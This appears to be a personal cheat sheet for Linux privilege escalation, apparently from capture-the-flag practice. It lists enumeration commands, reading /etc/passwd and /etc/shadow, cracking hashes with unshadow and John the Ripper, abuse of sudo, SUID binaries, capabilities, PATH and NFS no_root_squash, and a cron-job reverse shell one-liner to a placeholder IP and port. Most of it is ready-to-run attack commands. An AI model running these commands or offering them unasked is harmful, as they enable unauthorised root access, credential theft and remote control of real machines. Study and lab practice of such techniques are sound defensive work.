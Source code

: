 ## Enumeration

**`hostname`** - name of the device, can be usefull <br>
**`uname -a`** - information about kernel system, search in exploit DB <br>
**`cat /proc/version`** - information about compilers (c++), kernel version <br>
**`ps`** - idk <br>
**`id`** - users privilege level<br>
**`sudo -l`** - what commands can user run with root privileges <br>
**`env`** - enviromental variables<br>
**`cat /etc/passwd`** - discoved users on the system <br>
**`cat /etc/shadow`** - hashes of passwords <br>
**`cat /etc/issue`** - what linux is running <br>
**`history`** - can show passwords and usernames or any info <br> <br>

### find commands
`find . -name flag1.txt 2>/dev/null` find the file named “flag1.txt” in the current directory <br>
`find /home -name flag1.txt` find the file names “flag1.txt” in the /home directory <br>
`find / -type d -name config` find the directory named config under “/” <br>
`find / -type f -perm 0777` find files with the 777 permissions (files readable, writable, and executablebyall users) <br>
`find / -perm a=x` find executable files <br>
`find /home -user frank` find all files for user “frank” under “/home” <br>
`find / -mtime 10` find files that were modified in the last 10 days <br>
`find / -atime 10` find files that were accessed in the last 10 day <br>
`find / -cmin -60` find files changed within the last hour (60 minutes) <br>
`find / -amin -60` find files accesses within the last hour (60 minutes) <br>
`find / -size 50M` find files with a 50 MB size <br>

## Kernel exploit

Check the kernel information and try to find existing exploits, be sure you understande them. [ExploitDB](https://www.exploit-db.com/)

## Sudo

Run `sudo -l` command. Than look at [GTFOBins](https://gtfobins.github.io/) and search for bypass ways.

## SUID
Commands with permmisions of the file owner <br>

`find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set. <br>
Again you can compare compare executables on [GTFOBins+suid](https://gtfobins.github.io/#+suid).

It can be usefull to crack passwords using /etc/shadow and /etc/passwd files and then johnTheRipper  <br>
<pre>unshadow passwd.txt shadow.txt > passwords.txt

john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt passwords.txt
</pre>


## Capabilities

We can use the `getcap -r / 2>/dev/null` tool to list enabled capabilities. <br>
Search on [GTFOBins+capabilities](https://gtfobins.github.io/#+capabilities) <br>

## Cron Jobs

Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions. <br>

Any user can read the file keeping system-wide cron jobs under `/etc/crontab`

easy rev shell<br>
<pre>#!/bin/bash 

bash -i >& /dev/tcp/IP/PORT 0>&1</pre>

## PATH

1. What folders are located under $PATH
2. Does your current user have write privileges for any of these folders?
3. Can you modify $PATH?
4. Is there a script/application you can start that will be affected by this vulnerability?

search for writable files <br>
`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u` 

exporting path<br>
`export PATH=/newPath:$PATH`

easy shell<br>
<pre>echo "/bin/bash" > file

chmod 777 file </pre>

## NFS

NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.

`cat /etc/exports`

![image](/img/shell.png)

The critical element for this privilege escalation vector is the “no_root_squash”. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.
